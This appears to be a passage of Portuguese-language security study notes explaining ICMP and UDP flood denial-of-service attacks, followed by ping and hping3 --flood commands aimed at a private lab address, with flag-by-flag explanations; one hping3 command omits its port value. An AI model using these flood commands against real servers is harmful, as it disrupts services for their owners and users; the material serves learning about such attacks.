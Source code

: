 **2- ICMP e UDP Flood**

O ataque ICMP Flood, também conhecido como Ping Flood, e o UDP Flood são técnicas de DoS (Denial ie of Service ou Negação de serviço) que exploram o envio massivo de pacotes para sobrecarregar os recursos de um servidor e interromper suas operações.

O UDP envia pacotes de dados para o servidor, e, se a porta de destino estiver aberta, o servidor responde ao pacote recebido. Caso a porta esteja fechada, o servidor envia uma mensagem ICMP indicando a indisponibilidade da porta.

Ataques de flood tem o objetivo de realizar o esgotamento dos recursos do servidor mandando pacotes maiores e mais rapidamente.

Enviar um pacote grande quebrado em várias partes para quando o mesmo chegar no destino o servidor gastar muito processamento para reconstruir esse pacote.

É necessário que o hardware do atacante seja maior que o hardware do atacado, um ataque de “força bruta”.

Para esse ataque ser efetivo em um cenário real, botnets são utilizadas.

Facilmente de ser detectado.

**Entrando em prática**

`ping  192.168.200.7 -i 0.1 -s 6500`

- -i é o intervalo entre os envios de pacote

- 0.1 é o tempo em segundos para o envio de cada ping

- -s define o tamanho do pacote

- 6500 é o tamanho do pacote em bytes

`sudo hping3 --icmptype 8 192.168.200.7 --flood --data 6500`

- --icmptype 8: Envia pacotes ICMP do tipo Echo Request

- 192\.168.200.7: IP de destino (servidor)

- --flood: Envia os pacotes continuamente para sobrecarregar o alvo

- --data 6500: Tamanho do pacote em bytes

`sudo hping3 --udp 192.168.200.7 --flood -p --data 6500`

- --udp: Define o protocolo como UDP

- 192\.168.200.7: IP de destino (servidor)

- --flood: Envia pacotes continuamente

- -p 80: Porta de destino (geralmente usada para HTTP)

- --data 6500: Tamanho do pacote em bytes